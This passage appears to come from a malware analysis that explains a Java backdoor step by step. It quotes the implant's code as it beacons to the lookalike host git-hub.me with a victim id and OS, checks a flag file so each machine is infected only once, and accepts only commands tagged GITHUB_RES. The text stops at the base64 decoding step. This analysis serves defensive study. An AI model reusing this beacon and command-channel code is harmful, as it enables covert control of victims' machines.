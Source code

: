 - Crafts a POST request to git-hub.me containing a random generated uid and the identified OS, disguised as arguments from a legit-looking github query (using parameters as GITHUB_REQ).

```java
private static void sendPOST() throws IOException {
        String uid = randGen();
        StringBuilder data = new StringBuilder();
        String sec_path = "";
        data.append("GITHUB_REQ");
        data.append(uid);
        data.append("2000");
        data.append(getOperatingSystem());
```

- Checks for the existence of a flag file, indicating wether the attack was carried before on the infected machine. If the file is not present it will send the request as JSON and create said flag.

```java
try {
  if (sec_path.length() > 1) {
      File secFile = new File(sec_path);
      if (secFile.exists())
          System.exit(0);
  }

  HttpRequest request = HttpRequest.newBuilder()
      .header("Content-Type", "application/json; charset=utf-8")
      .version(HttpClient.Version.HTTP_1_1)
      .uri(URI.create(POST_URL))
      .POST(HttpRequest.BodyPublishers.ofString(data.toString()))
      .build();
  HttpClient client = HttpClient.newHttpClient();
  HttpResponse<String> response = client.send(request, HttpResponse.BodyHandlers.ofString());
```

- If the POST request is not well received (status 200), the code will sleep for 5 seconds. From now on all communications must come back labeled with “GITHUB_RES” indicating the C2 is the intended receiver of the message. Responses that come back without that pattern won’t be honored.

```java
if (response.statusCode() != 200)
{
  Thread.sleep(5000);
  continue;
}
String resStr = response.body();
if (!resStr.startsWith("GITHUB_RES"))
{
  System.out.println("Data Error");
} else {
```

- After the initial “dialogue” with the C2 and depending on the operating system used by the victim, malware will check if received response is longer than 11 chars. If so, it will take the first 10 and base64 decode them. Then those characters will be cast to UTF-8.
